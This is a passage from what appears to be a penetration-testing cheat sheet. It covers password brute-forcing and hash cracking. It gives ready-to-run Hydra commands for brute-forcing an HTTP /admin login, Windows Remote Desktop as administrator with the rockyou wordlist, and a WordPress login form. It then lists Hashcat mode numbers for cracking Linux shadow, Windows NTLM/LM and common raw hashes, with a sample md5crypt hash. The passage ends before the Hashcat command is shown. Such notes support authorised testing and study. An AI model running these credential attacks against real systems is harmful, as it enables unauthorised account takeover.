         -   Hydra attack http get 401 login with a dictionary
            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`

        -   Hydra attack Windows Remote Desktop with rockyou
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`

        -   Hydra brute force a Wordpress admin login
            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`



-   <span id="_bnmnt83v58wk" class="anchor"><span id="_Toc480741822" class="anchor"></span></span>Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

    -   Online Password Cracking
        [*https://crackstation.net/*](https://crackstation.net/)

    -   Hashcat
   Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
and
apt-get install pocl-opencl-icd

   Cracking Linux Hashes - /etc/shadow file
   ```
   500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
   3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
   7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
   1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems
   ```
   Cracking Windows Hashes
   ```
   3000 | LM                                               | Operating-Systems
   1000 | NTLM                                             | Operating-Systems
   ```
   Cracking Common Application Hashes
   ```
    900 | MD4                                              | Raw Hash
      0 | MD5                                              | Raw Hash
   5100 | Half MD5                                         | Raw Hash
    100 | SHA1                                             | Raw Hash
  10800 | SHA-384                                          | Raw Hash
   1400 | SHA-256                                          | Raw Hash
   1700 | SHA-512                                          | Raw Hash
   ```

   Create a .hash file with all the hashes you want to crack
   puthasheshere.hash:
   ```
   $1$O3JMY.Tw$AdLnLjQ/5jXF9.MTp3gHv/
   ```

   Hashcat example cracking Linux md5crypt passwords $1$ using rockyou:
